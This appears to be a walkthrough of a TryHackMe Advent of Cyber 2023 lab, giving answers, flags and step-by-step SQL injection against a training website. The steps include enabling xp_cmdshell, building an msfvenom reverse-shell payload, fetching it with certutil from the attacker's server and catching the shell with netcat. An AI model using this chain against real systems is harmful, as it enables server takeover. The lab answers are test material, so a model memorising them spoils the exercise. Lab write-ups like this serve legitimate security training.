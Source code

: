 # Day 10

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/f4d5cec6-14b2-420e-9428-3d232f71c555)

## Day 10 — Tasks Answers
### 1. Manually navigate the defaced website to find the vulnerable search for What is the first webpage you come across that contains the gift-finding feature?
![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/acff22db-c563-44d2-8458-24b6078286cd)

    /giftsearch.php

### 2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

Inject a Quote on a parameter ‘
![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/803758db-f911-4ada-a804-9190a0dd3f63)

    ODBC Driver 17 for SQL Server

### 3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

Inject the code after the value of parameter ‘OR 1=1 --
![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/ae3553f3-2227-4d6c-8dac-eaa612594948)

    THM{a4ffc901c27fb89efe3c31642ece4447}

### 4. What flag is in the note file Gr33dstr left behind on the system?

        Inject the below code first
        http://THM-MACHINE-IP/giftresults.php?age='; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; --
        Create a payload using the below command
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe

3. Start an HTTP server to host the payload with the below command
python3 -m http.server 8000

4. Send the payload to the victim site using the below command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘certutil -urlcache -f http://YOUR.LISTENING.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe’;--

5. Set a listener using the below command
nc -lnvp 4444

6. Execute the payload using the command
http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘C:\Windows\Temp\reverse.exe’; —

7. Change the directory to Administrator using the command
Cd C:\Users\Administrator

8. View the Content of Note.txt using the below command
type Note.txt

Ans: THM{b06674fedd8dfc28ca75176d3d51409e}

5. What is the flag you receive on the homepage after restoring the website?

